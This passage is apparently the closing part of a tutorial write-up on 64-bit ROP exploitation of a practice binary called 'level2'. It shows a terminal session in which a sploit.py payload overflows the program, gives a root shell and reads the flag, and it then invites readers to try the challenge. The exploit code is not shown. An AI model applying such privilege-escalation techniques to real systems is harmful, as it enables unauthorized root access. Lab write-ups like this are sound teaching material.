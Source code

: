 And now here it is in action:

```text
$ whoami
koji
$ ./level2 `./sploit.py`
[+] ROP tutorial level2
[+] Bet you can't ROP me this time around, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�x��!
# whoami
root
# cat flag
flag{challenge-completed}
```

All done! 

Hope you guys enjoyed this writeup. If you're interested in learning some 64-bit ROP exploitation, give this a go. It's not too hard and you might learn a thing or two along the way. 

